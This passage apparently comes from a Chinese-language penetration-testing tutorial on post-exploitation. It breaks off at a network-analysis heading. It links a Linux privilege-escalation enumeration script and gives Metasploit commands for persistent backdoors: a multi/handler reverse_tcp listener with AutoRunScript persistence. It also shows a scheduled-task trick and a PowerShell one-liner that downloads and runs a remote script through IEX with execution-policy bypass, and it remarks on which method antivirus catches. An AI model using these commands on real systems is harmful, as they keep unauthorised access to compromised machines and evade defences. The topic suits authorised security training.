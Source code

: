 相关工具：[https://www.securitysift.com/download/linuxprivchecker.py](https://www.securitysift.com/download/linuxprivchecker.py)   详细地列出网卡信息，主机信息，passwd文件，开启服务等等信息。

提权的方法复杂而多样，主要的手段还是第一种的使用exp提权。在尝试所有的提权方法之后依然不能成功，那么可以使用这台主机作为跳板进行内网的进一步渗透。

<br>

**后门**

拿下一个shell容易，但是对方服务器重启，web漏洞被补上，木马被删除，还能有办法保留住shell么？这里提供了几种持续后门的方法。

**Msf的持续后门**

Persistence: run persistence -h：用于创建启动项启动，会创建注册表，创建文件。（X86_Linux不支持此脚本）

Run metsvc -h ：用于创建服务，会创建meterpreter服务，并上传三个文件，容易被杀（我的msf版本不支持）使用-r参数可以卸载服务

Mof_ps_persist

**Msf自动运行脚本**

Autorunscript，一个十分强大的脚本，可以在生成会话的同事，执行指定的操作。可以通过autorunscript调用的脚本有6个，目录metasploit/scripts/meterpreter，有屏幕截图，获取环境变量等等。

**使用persistence和autorunscript留后门的方法是：**



```
Use explit/multi/handler
Set payload windows/meterpreter/reverse_tcp
Set lhost ***
Set lport ***
Set ExitOnSession false
Set AutoRunScript persistence -r *** -p 7231 -U -X -I 30
Exploit -j -z
```

**绕过拦截的计划任务：**

构造创建计划任务：schtasks /create /tn mytask /tr notepad.exe /sc hourly /mo 1 #每小时执行一次

[![](./img/85827/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0174c1b5b1e284c917.jpg)

powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://a.com/1.ps1');" 保存以上命令到1.ps一，通过IEX下载执行。

[![](./img/85827/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0114132025efdb871c.jpg)

[![](./img/85827/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t016ea5d4422cd6509e.jpg)

本机测试时360第二种报毒，第一种通过。

<br>

**网络分析**

**查看本机网络信息**

```
ipconfig
```

**使用代理探测内网**
